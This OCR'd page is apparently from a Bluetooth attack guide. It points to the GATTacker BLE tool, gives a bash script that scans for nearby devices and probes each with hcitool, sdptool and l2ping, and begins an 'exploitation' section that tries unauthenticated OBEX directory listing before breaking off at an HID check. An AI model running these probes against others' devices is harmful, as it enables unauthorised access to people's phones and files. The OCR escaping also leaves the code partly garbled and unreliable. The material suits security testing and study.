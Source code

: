 \# GATTacker for BLE testing\
git clone
\[https://github.com/securing/gattacker\](https://github.com/securing/gattacker)

## **Practical Attack Methods**

### **Method 1: Information Gathering Pipeline**

#!/bin/bash\
\# Bluetooth reconnaissance script

echo "Starting Bluetooth reconnaissance..."

\# Discover devices\
echo "Discovering devices..."\
hcitool scan \> discovered_devices.txt

\# For each device, gather information\
while read line; do\
if \[\[
$line \=\~ (\[0-9A-F\]{2}:){5}\[0-9A-F\]{2} \]\]; then  mac=$(echo
\$line \| grep -oE '(\[0-9A-F\]{2}:){5}\[0-9A-F\]{2}')\
echo "Gathering info for \$mac"

        \# Get device info  
        hcitool info $mac \> info\_$mac.txt 2\>&1  
            
        \# Get services  
        sdptool browse $mac \> services\_$mac.txt 2\>&1  
            
        \# Test connectivity  
        l2ping \-c 3 $mac \> ping\_$mac.txt 2\>&1  
    fi  

done \< discovered_devices.txt

### **Method 2: Service Exploitation**

\# OBEX service exploitation\
check_obex() {\
local target_mac=\$1\
echo "Checking OBEX services for \$target_mac"

    \# Try to list directory  
    obexftp \-b $target\_mac \-l \> /dev/null 2\>&1  
    if \[ $? \-eq 0 \]; then  
        echo "OBEX access successful\!"  
        obexftp \-b $target\_mac \-l \> obex\_$target\_mac.txt  
    fi  

}

\# HID service exploitation\
check_hid() {\
local target_mac=\$1\
echo "Checking HID services for \$target_mac"
